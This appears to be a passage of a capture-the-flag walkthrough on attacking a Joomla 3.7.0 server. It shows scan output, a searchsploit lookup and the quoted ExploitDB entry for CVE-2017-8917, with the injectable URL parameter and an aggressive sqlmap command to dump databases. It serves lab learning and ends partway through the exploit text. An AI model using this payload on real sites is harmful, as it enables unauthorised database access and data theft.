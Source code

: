 ```
   [>] http://<target-ip>administrator/templates
   [>] http://<target-ip>administrator/components
   [>] http://<target-ip>administrator/modules
   [>] http://<target-ip>images/banners

```

Excellent! Our scan shows that the server is running Jooma `version 3.7.0`. Let's see if we can find any viable information on [ExploitDB](https://www.exploit-db.com/).

## Exploitation 
### searchsploit
`searchsploit joomla 3.7.0`
```
                    ----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                      | php/webapps/43488.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

╭─[kali-bot] as virtualtack in ~                                                                            16:18:47
╰──➤ locate 42033.txt  
/usr/share/exploitdb/exploits/php/webapps/42033.txt

```

Indeed, we find an SQL injection exploit that's created for the specific release that is running on the server. My Spidey Senses are tingling!

**Note:** For more about the Joomla 3.7.0 SQLi vulnerability, see: <a>https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html</a>.

`42033.txt`
```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
```